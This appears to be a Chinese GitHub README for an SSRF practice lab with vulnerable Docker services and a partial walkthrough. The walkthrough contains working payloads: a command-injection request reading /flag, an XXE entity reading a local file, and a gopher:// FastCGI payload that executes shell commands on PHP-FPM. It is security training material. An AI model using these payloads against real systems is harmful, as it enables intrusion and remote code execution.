



# ssrf-labs
一个ssrf的综合靶场，基于国光师傅的sqlsec/ssrf-vuls，重制了部分关卡，并且添加了完整的dockerfile和dockers-compose。

靶场的设计拓扑图：



 

| 服务名称                                    | 考察攻击方式 | IP地址       |
| :------------------------------------------ | :----------- | :----------- |
| CodeExec - 代码执行                         | Gopher-HTTP  | 172.72.23.22 |
| SQLInject - SQL注入                         | Gopher-HTTP  | 172.72.23.23 |
| XXE - 外部实体注入                          | Gopher-HTTP  | 172.72.23.24 |
| Tomcat - put方法任意写文件 (CVE-2017-12615) | Gopher-HTTP  | 172.72.23.25 |
| CommandExec - 命令执行                      | Gopher-HTTP  | 172.72.23.26 |
| RedisUnauth - Redis未授权                   | Dict         | 172.72.23.27 |
| RedisAuth - Redis有授权情况下的组合利用     | Dict         | 172.72.23.28 |
| MySQLUnauth - Mysql未授权                   | Gopher-TCP   | 172.72.23.29 |
| FpmUnauth - Fpm未授权(Fastcgi协议)          | Gopher-TCP   | 172.72.23.30 |


## Usage
clone 本项目，然后执行`docker-compose up -d`即可。
```
git clone https://github.com/ProbiusOfficial/ssrf-labs.git
cd ssrf-labs
docker-compose up -d
```
访问8080端口即可看到靶场页面。

## Writeup
对齐国光师傅的靶场 - [手把手带你用 SSRF 打穿内网](https://www.sqlsec.com/2021/05/ssrf.html)，

这里也提供了一份writeup，补充一些东西x

### 172.72.23.21-入口


### 172.72.23.22-CodeExec


### 172.72.23.23-SQLI


### 172.72.23.24-CommandExec


```
POST /ping.php HTTP/1.1
Host: 172.72.23.24
Content-Length: 28
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36 Edg/133.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://core.hello-ctf.com:8011/
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

target=1.1.1.1%3Bcat+%2Fflag
```



### 172.72.23.25-XXE

http探测源码后，从其中分析出发包形式（或者本地单独启动一个容器进行抓包构造）：

比如 修改



```
POST / HTTP/1.1
Host: 172.72.23.25
Content-Length: 168
Cache-Control: max-age=0
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36 Edg/133.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost/
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
sec-ch-ua: "Not(A:Brand";v="99", "Microsoft Edge";v="133", "Chromium";v="133"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-site: none
sec-fetch-mode: navigate
sec-fetch-user: ?1
sec-fetch-dest: document
Connection: close

<?xml version="1.0" encoding= "UTF-8"?><!DOCTYPE user [<!ENTITY xxe SYSTEM "file:///flag" >]><user>	<username>&xxe;</username>	<password>admin</password></user>

```


### 172.72.23.26-Tomcat


### 172.72.23.27-Redisunauth


### 172.72.23.28-Redisauth


### 172.72.23.29-MySQL


### 172.72.23.30-fpm（FastCGI协议）

>  tip:人懒，没注入flag，执行ls命令获得回显就算成功，好吧-v-

[【Fastcgi协议分析 && PHP-FPM未授权访问漏洞 && Exp编写】](https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html)

tip:在原生环境下（这里指镜像所用的 php:fpm ）目标机器可用的php如下：

```
root@hello-ctf:/# find / -name "*.php"
/usr/local/lib/php/pearcmd.php
/usr/local/lib/php/peclcmd.php
/usr/local/lib/php/doc/XML_Util/examples/example.php
/usr/local/lib/php/doc/XML_Util/examples/example2.php
/usr/local/lib/php/test/XML_Util/tests/Bug5392Tests.php
/usr/local/lib/php/test/XML_Util/tests/AttributesToStringTests.php
/usr/local/lib/php/test/XML_Util/tests/SplitQualifiedNameTests.php
/usr/local/lib/php/test/XML_Util/tests/RaiseErrorTests.php
/usr/local/lib/php/test/XML_Util/tests/Bug21184Tests.php
/usr/local/lib/php/test/XML_Util/tests/CollapseEmptyTagsTests.php
/usr/local/lib/php/test/XML_Util/tests/GetDocTypeDeclarationTests.php
/usr/local/lib/php/test/XML_Util/tests/IsValidNameTests.php
/usr/local/lib/php/test/XML_Util/tests/CreateTagFromArrayTests.php
/usr/local/lib/php/test/XML_Util/tests/Bug4950Tests.php
/usr/local/lib/php/test/XML_Util/tests/Bug21177Tests.php
/usr/local/lib/php/test/XML_Util/tests/Bug18343Tests.php
/usr/local/lib/php/test/XML_Util/tests/CreateEndElementTests.php
/usr/local/lib/php/test/XML_Util/tests/GetXmlDeclarationTests.php
/usr/local/lib/php/test/XML_Util/tests/CreateTagTests.php
/usr/local/lib/php/test/XML_Util/tests/CreateStartElementTests.php
/usr/local/lib/php/test/XML_Util/tests/ReverseEntitiesTests.php
/usr/local/lib/php/test/XML_Util/tests/CreateCDataSectionTests.php
/usr/local/lib/php/test/XML_Util/tests/ReplaceEntitiesTests.php
/usr/local/lib/php/test/XML_Util/tests/AbstractUnitTests.php
/usr/local/lib/php/test/XML_Util/tests/ApiVersionTests.php
/usr/local/lib/php/test/XML_Util/tests/CreateCommentTests.php
/usr/local/lib/php/test/Structures_Graph/tests/BasicGraphTest.php
/usr/local/lib/php/test/Structures_Graph/tests/TopologicalSorterTest.php
/usr/local/lib/php/test/Structures_Graph/tests/AcyclicTestTest.php
/usr/local/lib/php/Structures/Graph.php
/usr/local/lib/php/Structures/Graph/Manipulator/AcyclicTest.php
/usr/local/lib/php/Structures/Graph/Manipulator/TopologicalSorter.php
/usr/local/lib/php/Structures/Graph/Node.php
/usr/local/lib/php/System.php
/usr/local/lib/php/OS/Guess.php
/usr/local/lib/php/PEAR/Task/Windowseol/rw.php
/usr/local/lib/php/PEAR/Task/Postinstallscript/rw.php
/usr/local/lib/php/PEAR/Task/Common.php
/usr/local/lib/php/PEAR/Task/Replace.php
/usr/local/lib/php/PEAR/Task/Unixeol.php
/usr/local/lib/php/PEAR/Task/Unixeol/rw.php
/usr/local/lib/php/PEAR/Task/Replace/rw.php
/usr/local/lib/php/PEAR/Task/Postinstallscript.php
/usr/local/lib/php/PEAR/Task/Windowseol.php
/usr/local/lib/php/PEAR/Config.php
/usr/local/lib/php/PEAR/ChannelFile.php
/usr/local/lib/php/PEAR/Exception.php
/usr/local/lib/php/PEAR/Common.php
/usr/local/lib/php/PEAR/REST/10.php
/usr/local/lib/php/PEAR/REST/11.php
/usr/local/lib/php/PEAR/REST/13.php
/usr/local/lib/php/PEAR/Installer.php
/usr/local/lib/php/PEAR/Command/Config.php
/usr/local/lib/php/PEAR/Command/Common.php
/usr/local/lib/php/PEAR/Command/Pickle.php
/usr/local/lib/php/PEAR/Command/Build.php
/usr/local/lib/php/PEAR/Command/Package.php
/usr/local/lib/php/PEAR/Command/Mirror.php
/usr/local/lib/php/PEAR/Command/Install.php
/usr/local/lib/php/PEAR/Command/Auth.php
/usr/local/lib/php/PEAR/Command/Remote.php
/usr/local/lib/php/PEAR/Command/Channels.php
/usr/local/lib/php/PEAR/Command/Registry.php
/usr/local/lib/php/PEAR/Command/Test.php
/usr/local/lib/php/PEAR/ErrorStack.php
/usr/local/lib/php/PEAR/Proxy.php
/usr/local/lib/php/PEAR/Frontend.php
/usr/local/lib/php/PEAR/PackageFile/v2/rw.php
/usr/local/lib/php/PEAR/PackageFile/v2/Validator.php
/usr/local/lib/php/PEAR/PackageFile/v2.php
/usr/local/lib/php/PEAR/PackageFile/Parser/v2.php
/usr/local/lib/php/PEAR/PackageFile/Parser/v1.php
/usr/local/lib/php/PEAR/PackageFile/v1.php
/usr/local/lib/php/PEAR/PackageFile/Generator/v2.php
/usr/local/lib/php/PEAR/PackageFile/Generator/v1.php
/usr/local/lib/php/PEAR/Command.php
/usr/local/lib/php/PEAR/Frontend/CLI.php
/usr/local/lib/php/PEAR/Downloader.php
/usr/local/lib/php/PEAR/RunTest.php
/usr/local/lib/php/PEAR/Downloader/Package.php
/usr/local/lib/php/PEAR/ChannelFile/Parser.php
/usr/local/lib/php/PEAR/REST.php
/usr/local/lib/php/PEAR/PackageFile.php
/usr/local/lib/php/PEAR/Packager.php
/usr/local/lib/php/PEAR/Builder.php
/usr/local/lib/php/PEAR/Validator/PECL.php
/usr/local/lib/php/PEAR/DependencyDB.php
/usr/local/lib/php/PEAR/Validate.php
/usr/local/lib/php/PEAR/Dependency2.php
/usr/local/lib/php/PEAR/Installer/Role.php
/usr/local/lib/php/PEAR/Installer/Role/Www.php
/usr/local/lib/php/PEAR/Installer/Role/Cfg.php
/usr/local/lib/php/PEAR/Installer/Role/Doc.php
/usr/local/lib/php/PEAR/Installer/Role/Common.php
/usr/local/lib/php/PEAR/Installer/Role/Data.php
/usr/local/lib/php/PEAR/Installer/Role/Ext.php
/usr/local/lib/php/PEAR/Installer/Role/Php.php
/usr/local/lib/php/PEAR/Installer/Role/Src.php
/usr/local/lib/php/PEAR/Installer/Role/Test.php
/usr/local/lib/php/PEAR/Installer/Role/Man.php
/usr/local/lib/php/PEAR/Installer/Role/Script.php
/usr/local/lib/php/PEAR/XMLParser.php
/usr/local/lib/php/PEAR/Registry.php
/usr/local/lib/php/build/run-tests.php
/usr/local/lib/php/build/gen_stub.php
/usr/local/lib/php/Console/Getopt.php
/usr/local/lib/php/XML/Util.php
/usr/local/lib/php/Archive/Tar.php
/usr/local/lib/php/PEAR.php
```

本题可使用工具[【Esonhugh-Gopherus3】](https://github.com/Esonhugh/Gopherus3)：

```
PS C:\Users\admin> gopherus3 --exploit fastcgi --host 172.72.23.30
       ________              .__                                ________
     /  _____/  ____ ______ |  |__   ___________ __ __  ______ \_____  \
    /   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/   _(__  <
    \    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \   /       \
     \______  /\____/|   __/|___|  /\___  >__|  |____//____  > /______  /
            \/       |__|        \/     \/                 \/         \/


Give one file name which should be surely present in the server (prefer .php file)
if you don't know press ENTER we have default one:  /usr/local/lib/php/pearcmd.php
Terminal command to run:  ls /

Your gopher link is ready to do SSRF:

gopher://172.72.23.30:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%0B%03%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH56%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%1ESCRIPT_FILENAME/usr/local/lib/php/pearcmd.php%0D%01DOCUMENT_ROOT/%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%008%04%00%3C%3Fphp%20system%28%27ls%20/%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```


## 鸣谢

- [国光师傅：手把手带你用 SSRF 打穿内网](https://www.sqlsec.com/2021/05/ssrf.html)
- [Github：sqlsec/ssrf-vuls](https://github.com/sqlsec/ssrf-vuls)
- [Github：tarunkant/Gopherus](https://github.com/tarunkant/Gopherus)
- [Github：LS95/gopher-redis-auth](https://github.com/LS95/gopher-redis-auth)

## 开源许可证

- 本项目基于无许可证的原始仓库：https://github.com/sqlsec/ssrf-vuls
- 所有新增/修改的代码采用 MIT 许可证（详见 LICENSE 文件）
- 使用者需自行承担使用无许可证代码的风险


